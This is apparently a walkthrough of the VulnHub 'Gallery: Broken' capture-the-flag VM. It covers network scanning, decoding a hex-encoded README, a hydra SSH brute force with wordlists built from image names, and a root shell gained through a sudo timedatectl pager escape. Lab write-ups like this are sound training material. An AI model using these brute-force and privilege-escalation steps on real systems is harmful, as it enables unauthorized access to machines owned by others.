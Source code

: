 # Gallery: Broken

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.251 00:0c:29:05:05:03       VMware, Inc.
192.168.127.254 00:50:56:f1:df:13       VMware, Inc.
```

The ip address is `192.168.127.251`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p22,80 -sC -sV -v -oN nmap.out 192.168.127.251

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
|_  256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:05:05:03 (VMware)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 there is nothing but afew image and a readme file which has HEX info in it, so i turned it to ASCII :

```bash
root@kali: cat README.md | xxd -r -p | head

����JFIF��Compressed by jpeg-recompress���
...
```

as it showd it is compressed by jpeg recompress so just change the extension to jpeg:

```bash
root@kali: cat README.md | xxd -r -p > image.jpeg
```

now open it in browser or image viewer :


![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fa1cb46-8150-4082-affb-a51799429005)


there is nothing useful in this picutre, so i tried to enumerate the web directory with different methods :

- Enumerating files
- Enumerating directories
- Bruteforcing with user bob, lead to nothing again
- Checking all images metadata

## 3.Gaining Shell

i just got frustrated with this CTF, but for the last try i just used image names as user and password and tried to brute force the ssh :

```text
root@kali: cat user.txt
broken
5terre
forest
lights
mountains
gallery

root@kali: cat pass.txt
broken
5terre
forest
lights
mountains
gallery
```

```bash
root@kali: hydra -L user.txt  -P pass.txt -v 192.168.127.251 ssh -t 5

INFO] Testing if password authentication is supported by ssh://broken@192.168.127.251:22
[INFO] Successful, password authentication is supported by ssh://192.168.127.251:22
[22][ssh] host: 192.168.127.251   login: broken   password: broken
```

now we can ssh to target :

```bash
root@kali: ssh broken@192.168.127.251

Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

762 packages can be updated.
458 updates are security updates.

Last login: Sat Jan 27 02:51:54 2024 from 192.168.127.128

broken@ubuntu:~$ id
uid=1000(broken) gid=1000(broken) groups=1000(broken),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## 4.Privilege Escalation

We can check for sudo permissions on this machine :

```bash
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
```

we can use `timedatectl` to escalate our privileges :

```bash
sudo /usr/bin/timedatectl list-timezones
!/bin/sh
```






